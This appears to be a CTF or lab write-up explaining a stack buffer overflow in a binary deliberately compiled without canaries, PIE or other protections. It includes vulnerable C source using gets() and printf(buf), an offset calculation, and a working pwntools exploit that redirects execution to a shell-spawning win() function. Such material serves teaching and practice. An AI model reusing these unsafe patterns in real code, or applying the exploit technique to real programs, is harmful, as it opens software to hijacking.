


# stack buffer overflow in `chal`

# The program & how it was compiled

You compiled with:

```
gcc -g -o chal -z execstack -fno-stack-protector -z norelro -no-pie -fcf-protection=none chal.c -std=c99
```

Meaning of the important flags:

- `-g` — include debug symbols.
- `-fno-stack-protector` — **disable stack canaries** (so no canary will prevent overflows).
- `-no-pie` — disable PIE → the binary is loaded at a fixed base address (addresses in the binary are static).
- `-z execstack` — mark the stack executable (not needed for this exploit, but it allows shellcode execution in other scenarios).
- `-z norelro` — disable RELRO (affects GOT; not important here).
- `-fcf-protection=none` — disable control-flow protections.
  All these options intentionally **weaken** protections for teaching/CTF.

  > donot forget to add `-std=c99`

---

# The source and vulnerable spots

```c
int main(void) {
    char buf[0x20];          // 32 bytes

    dump_stack();

    printf("Input: ");
    gets(buf);               // <-- classic unsafe function: no bounds checking
    printf("Output: ");
    printf(buf);             // <-- also dangerous: format-string if buf contains % directives
    putchar('\n');

    dump_stack();
    return 0;
}
```

Two vulnerabilities:

1. **Buffer overflow** via `gets(buf)` — `gets` reads until newline with no length check, so user can overflow past `buf`.
2. **Format-string problem** via `printf(buf)` — if attacker supplies `%s`, `%p`, `%n`, etc., they can leak memory or write memory. In your exploit you didn’t use format specifiers, so the format-string was not leveraged — the vulnerability used is the overflow.

`win()` function:

```c
void win(void) {
    char *argv[] = {"/bin/sh", NULL};
    execve(argv[0], argv, NULL);
}
```

So redirecting control flow to `win` yields a shell.

`dump_stack()` prints a region of stack including buffer, saved RBP and (saved) return address; useful to visualize layout.

---

# Stack layout (typical x86_64, frame-pointer used)

When `main()` has `char buf[0x20]` and is compiled with frame pointers, the stack (high → low addresses) around buffer looks like:

```
[ higher addresses ]
 ... (caller frames)
 saved RIP  <-- return address (8 bytes)
 saved RBP  <-- 8 bytes
 local variables (buf)  <-- 0x20 = 32 bytes
[ lower addresses ]
```

When you overflow `buf`, bytes write sequentially upward: first overwrite other local data, then saved RBP (8 bytes), then saved RIP (8 bytes). To control return address (RIP) you must write `sizeof(buf) + sizeof(saved RBP)` bytes of padding before your intended RIP value.

So the offset to RIP = `0x20 (32) + 8 (saved RBP) = 40` bytes.

---



# exploit

```python
#!/usr/bin/env python3
from pwn import *

context.log_level = 'info'

p = process('./chal')
elf = ELF('./chal')


win_addr = elf.symbols['win']

payload = b'A' * 32
payload += b'B' * 8
payload += win_addr.to_bytes(8, 'little')

p.recvuntil(b'Input: ')

p.sendline(payload)

p.interactive()
```



---
